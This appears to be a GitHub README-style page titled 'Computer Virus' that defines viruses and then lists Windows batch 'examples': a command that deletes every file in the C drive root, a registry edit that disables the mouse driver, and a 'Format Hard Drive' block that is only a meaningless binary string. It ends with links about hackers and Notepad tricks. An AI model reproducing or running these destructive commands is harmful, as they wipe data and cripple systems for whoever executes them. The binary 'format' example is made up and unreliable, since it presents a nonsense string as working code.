 # Computer Virus
A Computer virus is a self-replicating program that spreads by inserting copies of itself into other executable code or documents. By doing this, it behaves similarly to a biological virus, which spreads by inserting itself into living cells. While some viruses are harmless or more hoaxes, most are considered malicious.  

### Examples
This examples are based on Windows machines but they still can really distroy you computer if you run it so be careful. 
  
*File format: *.bat* 
    
**Delete all the content of C Drive**
```
@Echo off
Del C:\*.*|y
```

**Disable Mouse**
```
rem ---------------------------------
rem Disable Mouse
set key="HKEY_LOCAL_MACHINE\system\CurrentControlSet\Services\Mouclass"
reg delete %key%
reg add %key% /v Start /t REG_DWORD /d 4
rem ---------------------------------
```

**Format Hard Drive**
```
01001011000111110010010101010101010000011111100000
```

## Resources
- [Why Hackers Write Computer Viruses](http://gizmodo.com/5827405/why-hackers-write-computer-viruses)
- [Hacking With Notepad](http://www.instructables.com/id/Hacking-With-Notepad/)
- [Who are the people behind the online threats?](http://www.bullguard.com/bullguard-security-center/internet-security/internet-threats/hackers-virus-writers-and-internet-criminals.aspx)
